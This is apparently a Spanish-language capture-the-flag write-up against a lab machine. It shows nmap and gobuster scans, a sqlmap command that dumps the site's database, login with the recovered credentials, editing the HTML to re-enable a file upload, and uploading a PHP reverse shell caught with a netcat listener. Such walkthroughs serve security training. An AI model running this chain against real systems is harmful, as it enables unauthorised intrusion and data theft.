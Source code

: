 

- Resumen ejecutivo 3
- Resumen del proyecto 4
- Alcance de la auditoría 5
- Evaluación inicial 6
- Formalización del modelo de amenazas 11


Metodologías de penetración
-  Escaneo de red
	- Nmap 
	- Fuzzing de directorios Gobuster
-  Enumeración
	- burpsuite
	- sqlmap
- Explotación
	- Reverse shell

# ESCANEO DE RED 

### Nmap

```
sudo nmap -p- -open -sS -sV -Pn  --min-rate 5000 10.0.2.15 -vvv

```

![[Pasted image 20240605200324.png]]
Vemos 2 puertos el 22 y el 80 abiertos. ya sabemos que son el ssh y servidor web respectivamente.
	 ###### Nota 
	 para que la maquina funcione se debe introducir la IP en el archivo /etc/hosts 
		 ![[Pasted image 20240605200537.png]]
luego vamos a la ur los vengadores.com
	clic en buscador y hacemos click en el boton BUSCADOR que se ve en blanco
				![[Pasted image 20240605200833.png]]


### Gobuster
```
gobuster dir -u http://losvengadores.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
hay varias rutas pero para el reto no sirve ninguna...

![[Pasted image 20240605201712.png]]

vamos a la busqueda y probamos con los "heroes " que hay en el inicio.
![[Pasted image 20240605201943.png]]
significa que esta en la bd ahora interceptemos la peticion.
![[Pasted image 20240605202104.png]]
click derecho y copy to file y lo guardamos con un nombre y la extensión .req
### SQLMAP

Una vez exportado el archivo.req vomaos a usar sqlmap
```
sqlmap -r losvengadoress.req -p searchVal --batch --level 5 --risk 3   --dump -All --threads 10
```
lo que nos interesa es esta fila de la bd. ahora vamos a loguearnos a la web

![[Pasted image 20240605201017.png]]
vamos a login  y  ponemos de usuario capitanamerica y adamantium de password.
![[Pasted image 20240605202439.png]]
 una vez dentro  tenemos que borrar lo que pone en la url el panelControl.php hay que quitarlo 
 
 ![[Pasted image 20240605202730.png]]
de vuelta en la pag vamos a inspeccionar y buscamos CV Upload.
![[Pasted image 20240605202843.png]] 

ahora hay que editar el html con lo siguiente.

```
   
	<div class="col-sm-12 col-md-6">
              <form action="CV-upload.php" method="post" enctype="multipart/form-data">
                <input id="cv" name="cv" type="file" placeholder="Your CV" />
                <button class="btn tm-btn-submit" onclick="upload_cv()">Submit</button>
              </form>
            </div>
   

```
esto nos habilitara la forma de subir los archivos
![[Pasted image 20240605203303.png]]
### Reverse Shell

vamos a https://www.revshells.com/ y usamos una reverse.php
copiamos todo y lo metemos en un archivo llamado cv.php



		![[Pasted image 20240605203624.png]]
	subimos la reverse 
	![[Pasted image 20240605203926.png]]
	![[Pasted image 20240605203942.png]]
	ahora vamos a esa ruta pero antes ponemos un nc -nlvp 4444
![[Pasted image 20240605204120.png]]
![[Pasted image 20240605204100.png]]
fin 